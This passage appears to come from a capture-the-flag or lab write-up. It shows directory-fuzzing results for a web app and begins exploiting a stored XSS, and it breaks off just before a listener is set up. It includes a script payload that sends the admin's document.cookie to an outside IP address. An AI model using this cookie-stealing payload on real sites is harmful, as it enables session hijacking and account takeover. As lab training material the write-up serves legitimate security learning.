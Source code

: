 ```
________________________________________________

new                     [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 225ms]
images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 241ms]
login                   [Status: 200, Size: 857, Words: 200, Lines: 36, Duration: 429ms]
                        [Status: 200, Size: 1785, Words: 418, Lines: 66, Duration: 603ms]
signup                  [Status: 200, Size: 667, Words: 159, Lines: 31, Duration: 477ms]
admin                   [Status: 403, Size: 392, Words: 75, Lines: 22, Duration: 393ms]
Login                   [Status: 200, Size: 857, Words: 200, Lines: 36, Duration: 361ms]
messages                [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 336ms]
```

Let's begin exploitation.

# EXPLOITATION
---


Once we send the listing, we can check we got XSS, but we can also check this interesting stuff:

![Pasted image 20250331161239.png](../../IMAGES/Pasted%20image%2020250331161239.png)

We can check that we can report listing to admins, meaning that an admin user could possibly be surveilling the website and receiving the request, maybe we can exploit the XSS to get the admin cookie:

```
<script>
  fetch('http://10.6.34.159:8000/?cookie=' + document.cookie);
</script>
```

We need to set up the python server:
